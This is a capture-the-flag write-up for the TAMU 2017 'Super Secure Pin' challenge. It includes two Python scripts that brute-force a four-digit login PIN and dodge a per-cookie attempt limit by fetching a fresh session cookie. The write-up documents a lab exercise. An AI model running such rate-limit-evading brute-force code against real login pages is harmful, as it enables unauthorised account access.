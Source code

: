 # TAMU_CTF-2017-Writeups
Writeups for challenges I solved in the TAMU 2017 CTF

I am on my laptop right now, I will sperate the chalanges later

# Super Secure Pin - 100 points

## Preliminary Research
The link in question is http://pin.ctf.tamu.edu/ and there is not much too it.  After clicking a link called 'login' you get to http://pin.ctf.tamu.edu/login, this is where the fun is to be had.

I looked at the source code, but there was nothing of interest, looks like we will have to brute-force this.

I opened up [BurpSuite](https://portswigger.net/burp/) and took a look at the POST requests, there was a cookie called **uid** and then the pin, called **pin**; referer was also set as pin.ctf.tamu.edu.

I sent the POST over to the 'repeater' feature in BurpSutie.  I just wanted to try some basic combinations and save myself the time of brute-forcing.  I tried 0000, 6969, 9999, 1111, then something weird happened, I didn't get the usual error message, I got *WRONG: too many tries*.

After some testing and consulting my teammates at Umbra, we came to the conclusion that the cookie was only good for 4 tries.

So now we know what we have to do, try all 10 000 pins from 0000-9999 but get a new cookie every 4 attempts.

## The code
Normally I would use [Hydra](http://sectools.org/tool/hydra/), but Hydra wants a login and a password.  So for this I used [Python3](https://www.python.org/downloads/) with the [requests](http://docs.python-requests.org/en/master/) library.

This was the code I settled on:
```python
#!/usr/env/python3

import requests

#send a GET to refresh uid cookie
def get_cookie(url, cookie_id):
    return {cookie_id: requests.get(url).cookies[cookie_id]}

#'0000' - '9999'
pins = [str(i).zfill(4) for i in range(10000)][400:]

t_url = "http://pin.ctf.tamu.edu/login"
t_headers={'referer': 'http://pin.ctf.tamu.edu/login'}
i = 0 #lazy counter

for pin in pins:
    #every 4 attempts cookie needs to be refreshed
    if i % 3 == 0:
        t_cookies = get_cookie(t_url, 'uid')
    pin_field = {'pin': pin}
    r = requests.post(t_url, data=pin_field, cookies=t_cookies, headers=t_headers)
    if "WRONG" not in r.text:
        print(r.text)
    print(pin)
    i += 1
```

This code *will* work, but it is SLOW.  It took 20-30min to get the pin and it wasn't even half way through all possible values.  So I decided to write something faster using pythons async.  If you don't know what async is, it is like threading but neater.

I used the [grequests](https://github.com/kennethreitz/grequests) library for the following faster code:
```python
#!/usr/env/python3

#Values prefixed with 't_' are user defined
#'t_' is short for 'target_'

import grequests
import requests

def get_cookie(url, cookie_id):
    return {cookie_id: requests.get(url).cookies[cookie_id]}

def gpost_it(t_url, t_data, t_cookies, t_headers):
    return grequests.post(
        t_url, 
        data=t_data, 
        cookies=t_cookies, 
        headers=t_headers)

pins = [str(i).zfill(4) for i in range(10000)]

t_url = "http://pin.ctf.tamu.edu/login"
t_headers={'referer': 'http://pin.ctf.tamu.edu/login'}
t_cookies = get_cookie(t_url, 'uid')
to_do = []

print("Running aysnc batches of 4 requests each for cookie refreshing")
for i, pin in enumerate(pins):
    to_do.append(gpost_it(t_url, {'pin': pin}, t_cookies, t_headers))
    
    if i % 3 == 0:
        t_cookies = get_cookie(t_url, 'uid')
        to_do = set(to_do) #Done for performance
        
        for response in grequests.map(to_do):
            if "WRONG" not in response.text:
                print(response.text)
                break
            
            elif "tries" in response.text:
                print("too many tries error, adjust cookie refresh")
        
        to_do=[] #Reset list
    
    #Just me being fancy
    percent_complete = round(i/len(pins) * 100, 2)
    if percent_complete % 5 == 0:
        print(int(percent_complete), "%", end='\r')

print("C'est fini")
```
Due to the fact that in order to run async you need to assemble a 'to do' list first, and that list will be executed in pseudo-random order, we can only afford to run batches of 4 POSTs at a time, or the cookie might expire.  This requires some more code, but it **is** faster.  This wil get the flag in just under 15min.

Also because the second one was not written just as I went along, it is much neater and more 'pythonic'.
